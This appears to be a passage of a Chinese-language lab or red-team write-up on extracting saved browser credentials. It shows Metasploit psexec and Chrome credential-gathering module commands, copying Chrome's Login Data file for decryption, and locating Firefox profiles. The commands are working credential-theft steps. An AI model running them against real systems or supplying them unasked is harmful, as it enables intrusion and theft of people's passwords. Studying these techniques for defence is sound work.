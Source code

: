 ### 攻击分析

#### 测试1：使用Metasploit提取Chrome凭据
1. **建立会话**：
   使用Metasploit获得靶机会话：
   ```plaintext
   msf6 > use exploit/windows/smb/psexec
   msf6 exploit(windows/smb/psexec) > set RHOST 192.168.1.100
   msf6 exploit(windows/smb/psexec) > set SMBUSER user1
   msf6 exploit(windows/smb/psexec) > set SMBPASS Password123
   msf6 exploit(windows/smb/psexec) > run
   ```

2. **运行模块**：
   ```plaintext
   msf6 > use post/windows/gather/credentials/chrome
   msf6 post(windows/gather/credentials/chrome) > set SESSION <session_id>
   msf6 post(windows/gather/credentials/chrome) > run
   ```
   - 输出示例：
     ```
     URL: https://example.com
     Username: user@example.com
     Password: Password123
     ```

3. **结果分析**：
   - 成功：提取Chrome保存的明文凭据。
   - 失败可能：
     - 未保存凭据。
     - 会话权限不足。
     - 防病毒软件拦截。

#### 测试2：手动提取Chrome凭据
1. **复制数据库**：
   ```cmd
   copy "%LocalAppData%\Google\Chrome\User Data\Default\Login Data" C:\Temp\LoginData.sqlite
   ```

2. **运行Python脚本**：
   保存上述Python脚本为`decrypt_chrome.py`，执行：
   ```cmd
   python decrypt_chrome.py
   ```

3. **结果分析**：
   - 成功：输出URL、用户名和明文密码。
   - 失败可能：Python环境缺失或文件被锁定。

#### 测试3：提取Firefox凭据
1. **定位配置文件**：
   ```cmd
   dir "%APPDATA%\Mozilla\Firefox\Profiles\*.default-release"
   ```
